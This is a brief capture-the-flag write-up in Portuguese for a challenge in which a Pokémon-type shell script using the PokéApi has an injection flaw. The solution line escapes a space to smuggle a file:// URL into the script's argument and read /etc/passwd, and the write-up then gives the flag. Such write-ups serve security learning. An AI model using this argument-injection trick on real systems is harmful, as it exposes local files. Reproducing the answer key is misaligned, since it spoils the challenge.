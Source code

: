 # **CTF name**

## _PokéType_

## Information

| **Category:** | **Points:** |
| ------------- | ----------- |
| CLI           | 500         |

**Description:**

> Fulaninho nunca consegue lembrar dos tipos de seus pokémons favoritos. Como solução, ele escreveu um shell script que usa a PokéApi para consultar o tipo de um pokémon rapidamente. Infelizmente, Fulaninho não sabe muito de segurança e seu script contém uma vulnerabilidade.

A flag está no arquivo /etc/passwd.

## Solution

Input:
./poketype.sh \ file:/etc/passwd

O caracter "\" escapa um espaço permitindo a inserção de outras urls, neste caso usei o protocolo file para acessar o arquivo da flag.

### Flag

> CTF-BR{3h_Por_1SSo_qu3_vOc3_D3vE_U5@R_A$PaS_4O_aCE55AR_v4rIav3I5}
